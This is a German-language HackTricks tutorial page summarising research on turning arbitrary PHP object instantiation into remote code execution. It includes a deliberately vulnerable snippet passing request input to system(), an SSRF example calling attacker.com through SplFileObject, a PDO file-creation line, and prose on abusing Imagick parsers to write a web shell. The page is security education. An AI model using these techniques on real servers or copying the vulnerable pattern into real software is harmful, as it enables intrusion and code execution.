 # PHP - RCE durch Objektcreation ausnutzen: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

Dies ist im Grunde eine Zusammenfassung von [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Einführung

Die Erstellung neuer willkürlicher Objekte, wie `new $_GET["a"]($_GET["a"])`, kann zu Remote Code Execution (RCE) führen, wie in einem [**Bericht**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) detailliert beschrieben. Dieses Dokument hebt verschiedene Strategien zur Erreichung von RCE hervor.

## RCE über benutzerdefinierte Klassen oder Autoloading

Die Syntax `new $a($b)` wird verwendet, um ein Objekt zu instanziieren, wobei **`$a`** den Klassennamen und **`$b`** das erste Argument darstellt, das an den Konstruktor übergeben wird. Diese Variablen können aus Benutzereingaben wie GET/POST stammen, wo sie Strings oder Arrays sein können, oder aus JSON, wo sie als andere Typen erscheinen könnten.

Betrachten Sie den folgenden Codeausschnitt:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In diesem Fall führt das Setzen von `$a` auf `App` oder `App2` und `$b` auf einen Systembefehl (z.B. `uname -a`) zur Ausführung dieses Befehls.

**Autoloading-Funktionen** können ausgenutzt werden, wenn solche Klassen nicht direkt zugänglich sind. Diese Funktionen laden automatisch Klassen aus Dateien, wenn sie benötigt werden, und sind definiert mit `spl_autoload_register` oder `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Das Verhalten des Autoloadings variiert je nach PHP-Version und bietet unterschiedliche RCE-Möglichkeiten.

## RCE über eingebaute Klassen

Ohne benutzerdefinierte Klassen oder Autoloader können **eingebaute PHP-Klassen** für RCE ausreichen. Die Anzahl dieser Klassen liegt je nach PHP-Version und Erweiterungen zwischen 100 und 200. Sie können mit `get_declared_classes()` aufgelistet werden.

Konstruktoren von Interesse können über die Reflection-API identifiziert werden, wie im folgenden Beispiel und dem Link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) gezeigt.

**RCE über spezifische Methoden umfasst:**

### **SSRF + Phar Deserialisierung**

Die Klasse `SplFileObject` ermöglicht SSRF über ihren Konstruktor und erlaubt Verbindungen zu jeder URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kann in PHP-Versionen vor 8.0 zu Deserialisierungsangriffen führen, wenn das Phar-Protokoll verwendet wird.

### **Ausnutzen von PDOs**

Der Konstruktor der PDO-Klasse ermöglicht Verbindungen zu Datenbanken über DSN-Strings, was potenziell die Erstellung von Dateien oder andere Interaktionen ermöglicht:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Versionen von PHP bis 5.3.22 und 5.4.12 waren anfällig für XXE-Angriffe über die `SoapClient`- und `SimpleXMLElement`-Konstruktoren, abhängig von der Version von libxml2.

## RCE über die Imagick-Erweiterung

Bei der Analyse der **Abhängigkeiten eines Projekts** wurde festgestellt, dass **Imagick** für die **Befehlsausführung** durch die Instanziierung neuer Objekte genutzt werden kann. Dies bietet eine Möglichkeit, Schwachstellen auszunutzen.

### VID-Parser

Die Fähigkeit des VID-Parsers, Inhalte an einen beliebigen angegebenen Pfad im Dateisystem zu schreiben, wurde identifiziert. Dies könnte zur Platzierung einer PHP-Shell in einem webzugänglichen Verzeichnis führen, was Remote Code Execution (RCE) ermöglicht.

#### VID-Parser + Datei-Upload

Es wird angemerkt, dass PHP hochgeladene Dateien vorübergehend in `/tmp/phpXXXXXX` speichert. Der VID-Parser in Imagick, der das **msl**-Protokoll verwendet, kann Wildcards in Dateipfaden verarbeiten, was den Transfer der temporären Datei an einen gewählten Ort erleichtert. Diese Methode bietet einen zusätzlichen Ansatz, um beliebige Dateien im Dateisystem zu schreiben.

### PHP-Absturz + Brute Force

Eine Methode, die im [**originalen Bericht**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beschrieben wird, beinhaltet das Hochladen von Dateien, die einen Serverabsturz auslösen, bevor sie gelöscht werden. Durch Brute-Forcing des Namens der temporären Datei wird es möglich, dass Imagick beliebigen PHP-Code ausführt. Diese Technik wurde jedoch nur in einer veralteten Version von ImageMagick als effektiv befunden.

## Referenzen

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
